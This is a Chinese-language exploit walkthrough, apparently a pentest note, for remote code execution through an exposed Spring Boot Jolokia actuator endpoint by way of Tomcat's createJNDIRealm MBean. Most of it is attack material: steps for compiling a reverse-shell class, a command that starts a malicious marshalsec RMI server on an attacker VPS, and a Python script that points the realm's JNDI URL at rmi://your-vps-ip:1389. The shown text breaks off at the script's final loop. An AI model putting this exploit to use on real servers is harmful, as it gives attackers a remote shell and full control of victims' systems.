 利用条件和上面差不多，访问接口/jolokia 或 /actuator/jolokia  
  
漏洞利用：流程如下：访问 /actuator/jolokia/list 路由搜索 logback 和 reloadByURL, 发现目标未启用 logback 组件。在 jolokia-realm-jndi-rce 中使用 marshalsec-0.0.3-SNAPSHOT-all.jar来进行 JNDI 注入，依赖于目标使用的 JDK 版本，对于 OracleJDK11.0.1、8u191、7u201、6u211 或者更高版本的 JDK, 限制加载远程 codebase.  
  
1、 访问 /jolokia/list接口，查看是否存在 type=MBeanFactory和 createJNDIRealm 关键词，编写用来反弹shell的代码JNDIObject.java，将编译好的class文件放到网站根目录  
```
javac -source 1.5 -target 1.5 JNDIObject.java
```  
  
2、 利用marshalsec开启恶意的rmi服务  
```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://vps:port/#JNDIObject 1389
```  
  
3、 开启监听端口3333，调用进行加载触发，利用exp如下  
```
#!/usr/bin/env python3

import requests


url ='http://地址/jolokia'


create_realm ={
"mbean":"Tomcat:type=MBeanFactory",
"type":"EXEC",
"operation":"createJNDIRealm",
"arguments":["Tomcat:type=Engine"]
}

wirte_factory ={
"mbean":"Tomcat:realmPath=/realm0,type=Realm",
"type":"WRITE",
"attribute":"contextFactory",
"value":"com.sun.jndi.rmi.registry.RegistryContextFactory"
}

write_url ={
"mbean":"Tomcat:realmPath=/realm0,type=Realm",
"type":"WRITE",
"attribute":"connectionURL",
"value":"rmi://your-vps-ip:1389/JNDIObject"
}

stop ={
"mbean":"Tomcat:realmPath=/realm0,type=Realm",
"type":"EXEC",
"operation":"stop",
"arguments":[]
}

start ={
"mbean":"Tomcat:realmPath=/realm0,type=Realm",
"type":"EXEC",
"operation":"start",
"arguments":[]
}

flow =[create_realm, wirte_factory, write_url, stop, start]

for i in flow:
```